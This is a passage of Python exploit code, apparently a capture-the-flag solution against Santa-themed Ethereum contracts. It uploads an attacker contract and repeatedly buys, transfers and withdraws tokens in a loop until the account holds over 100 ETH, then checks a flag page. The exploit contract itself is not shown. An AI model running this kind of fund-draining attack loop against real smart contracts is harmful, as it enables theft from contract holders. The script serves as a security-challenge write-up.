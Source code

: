 ```python


def buyIn(amount):
    nonce = w3.eth.getTransactionCount(account)
    tx = niceListV2Contract.functions.buyIn(amount).buildTransaction({
        "from": account,
        "gasPrice": w3.eth.gas_price,
        "nonce": nonce,
        "gas": 210000
    })
    signed_tx = w3.eth.account.sign_transaction(tx, privateKey)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    w3.eth.wait_for_transaction_receipt(tx_hash)


def checkIfNice():
    if niceListV2Contract.functions.isNice(account).call():
        print(f"success after {time.time() - start} seconds!")
        url = f"http://{fqdn}:8080/isNice"
        page = requests.get(url).text
        print(page)
    else:
        print("no luck :(")


def getEthBalance():
    return w3.eth.get_balance(account)


def getSantaBalance():
    return santaCoinContract.functions.balanceOf(account).call()


# get account from address, since this one is checked from website
account = w3.eth.account.from_key(privateKey).address

# find existing contracts / upload attacker contract
santaCoinContract = findSantaCoinContract()
niceListV2Contract = findNiceListV2Contract()
attackerContract = uploadAttackerContract()

# exploit until we have 101 eth on our account
while getEthBalance() < int(102 * 1000000000000000000):
    buySanta(getEthBalance() * 0.8)  # use 80% to buy santa
    transferSantaToContract(getSantaBalance())  # transfer all to contract
    startAttack()  # attack here!
    retrieveAllSantaFromContract()  # send santa balance to sender
    retrieveAllEthFromContract()  # send eth balance to sender
    sellAllSanta()  # sell all santa
    print(f"{getEthBalance()} eth / {getSantaBalance()} santa on web ")


# we got enough eth, lets buy some santa
buySanta(int(101 * 1000000000000000000))  # buy 101 Santa from web
niceListAllowance(int(101 * 1000000000000000000))  # allowance
buyIn(int(101 * 1000000000000000000))  # buy in
checkIfNice()
```
